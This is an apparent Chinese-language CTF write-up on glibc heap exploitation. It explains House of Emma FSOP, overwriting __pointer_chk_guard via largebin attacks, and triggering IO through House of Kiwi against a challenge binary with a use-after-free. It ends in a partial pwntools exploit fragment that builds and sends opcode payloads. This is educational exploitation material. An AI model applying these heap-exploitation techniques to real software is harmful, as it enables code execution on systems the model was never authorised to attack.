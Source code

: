 ## 一些问题：

在实际操作中，可能因为 stderr 的指针存放在 bss 段上，从而导致无法篡改。只能使用 exit 来触发 FSOP，但是又会发现如果通过 exit 来触发 FSOP，会遇到在 exit 中也有调用指针保护的函数指针执行，但此时的异或内容被我们所篡改，使得无法执行正确的函数地址，且此位置在 FSOP 之前，从而导致程序没有进入 IO 流就发生了错误。

这种时候就可以考虑构造两个 IO_FILE，且后者指针处于前者的 _chains 处，前者用 GLIBC2.34 之前的 IO_FILE 攻击 的思想在 __pointer_chk_guard 处写已知内容，后者再用 House_OF_Emma 来进行函数指针调用。

## 实战利用：House_of_emma

![img](../../../../markdown/photos/t018e5175fbce4562c8.png)

这道题是house_of_emma的模板题

表面看起来是一个vm，其实醉翁之意不在酒

![img](../../../../markdown/photos/t013cd50f758c2212d8.png)

add函数限制了size的大小

![img](../../../../markdown/photos/t01d7479a2e93c90730.png)

在delete函数中存在uaf

### 思路：

没有办法退出opcode的主循环，可以利用 `house_of_kiwi` 通过 `topchunk` 不够完成分配进行 `assert` 从而走io

1. 使用largebin attack在stderr处写入一个可控地址
2. 使用largebin attack在 `__pointer_chk_guard` 处写入一个已知地址
3. 通过写入的地址和需要调用的函数进行加密，同时构造合理的 `IO_FILE` 
4. 触发 `house_of_kiwi` 同时利用 `magic_gadget`
5. 进行orw

### EXP

```python

    all_payload += payload


def delete(idx):
    global all_payload
    payload = p8(0x2)
    payload += p8(idx)
    all_payload += payload


def edit(idx, buf):
    global all_payload
    payload = p8(0x4)
    payload += p8(idx)
    payload += p16(len(buf))
    payload += str(buf)
    all_payload += payload


def run_opcode():
    global all_payload
    all_payload += p8(5)
    sh.sendafter("Pls input the opcode", all_payload)
    all_payload = ""


# leak libc_base
```